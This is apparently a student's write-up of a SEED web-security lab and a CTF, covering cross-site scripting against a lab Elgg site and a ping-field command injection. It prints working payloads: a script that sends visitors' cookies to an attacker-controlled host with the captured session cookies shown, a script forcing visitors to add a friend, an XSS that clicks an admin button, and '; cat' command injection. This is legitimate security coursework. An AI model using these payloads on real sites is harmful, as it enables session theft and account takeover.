 # Weeks 9 and 10 assignment

## HTTP Header Live

Before the start of the lab, we got familiar with the *HTTP Header Live Tool*.
Because we were already familiar with the Firefox's Web dev tools, it was easy to get a grasp of the add-on.

<p align="center">
    <img src="screenshots/log10_1.png">
</p>

## Task 1

For the first task, we logged in as Alice and changed the brief description field to the following:

```html
<script>alert('XSS')</script>
```

This made an alert message prompt every time Alice's profile was loaded:

<p align="center">
    <img src="screenshots/log10_2.png">
</p>

## Task 2

This task was similar to the first. However, the session cookies was printed out instead of a `'XSS'` string.

<p align="center">
    <img src="screenshots/log10_3.png">
</p>

## Task 3

For this task, we wanted to actually get the cookies ourselves, instead of just displaying them to the user.
For that, we want the browser to send an HTTP request to our machine. 
This was done by inserting an image tag with source set to our server. 
This way, when a user loads the compromised profile, it's browser will try to load the image from our server and append the cookie in that request.

```html
<script>document.write('<img src=http://10.9.0.1:5555?c='+ escape(document.cookie) + '   >');</script>
```

```bash
[11/23/22]seed@VM:~/.../LabsetupXSS$ nc -lknv 5555
Listening on 0.0.0.0 5555
Connection received on 10.0.2.4 36002
GET /?c=PHPSESSID%3Dosdptu4bq9idv8jv9rnion5ebf%3B%20Elgg%3Decscjgted05cms63euvl4djb7t HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/alice
``` 

## Task 4

The goal of this task was to make any user that visited Samy's page unknowingly add him as a friend.

Firstly, we added Samy as a friend, to see what this request would look like:

```http
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1669204254&__elgg_token=6njpngZIHn_-c7JYPSPcbA&__elgg_ts=1669204254&__elgg_token=6njpngZIHn_-c7JYPSPcbA

Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
Cookie: PHPSESSID=osdptu4bq9idv8jv9rnion5ebf; Elgg=ecscjgted05cms63euvl4djb7t

GET: HTTP/1.1 200 OK

Date: Wed, 23 Nov 2022 11:51:01 GMT
Server: Apache/2.4.41 (Ubuntu)
Cache-Control: must-revalidate, no-cache, no-store, private
expires: Thu, 19 Nov 1981 08:52:00 GMT
pragma: no-cache
x-content-type-options: nosniff
Vary: User-Agent
Content-Length: 386
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json; charset=UTF-8
```

From that we could identify the required query parameters to perform such a request: a profile id (59 for Samy's case) and a couple of security tokens.

From that, we could build our request:

```js
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        
        var sendurl=`http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=${ts}&__elgg_token=${token}&__elgg_ts=${ts}&__elgg_token=${token}`;
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

This code was saved to the About me section on Samy's profile.
Then, when Alice loaded his profile, our exploit sent a request and successfully added Samy as Alice's friend.

### Questions

1. Elgg requires a couple tokens on requests to prevent CSRF attacks. `$__elgg_ts` indicated the current timestamp and `$__elgg_token` is an action token generated when the page is loaded. Variables `ts` and `token` fetch this data so the request can be validated by the Elgg server.

2. If we try to write code into the About me Visual editor, our text will be enconded to HTML. For example, '<' will become `<p>&lt;</p>`. Because of that, we cannot load js code in a way it could be executed.


## Week 10 CTF

### First Challenge

If we provide an arbitrary string for a justification, the admin will not give access to the flag.
We noticed that the text input was vulnerable to XSS by passing `<script>alert('hey')</script>`. This prompted an alert message.

The way the admin would ever give access to the flag was by pressing the Give Flag button. 
Thus, we decided to click the button ourselves using XSS:

```html
<script>document.getElementById('giveflag').click();</script>
```

When this "justification" was loaded into the admin page it would click the give flag button which in turn gave us the flag.

### Second Challenge

The second challenge presented us with a website. There was a section that gave us the ping to a host.
It looked like this was using the Linux's `ping` command. 
Because of that, we tried passing an additional command, like this:

```
; echo "hey"
```

Because that worked and hey was prompted, then it was easy to retrieve the flag:

``` 
; cat /flags/flag.txt
```
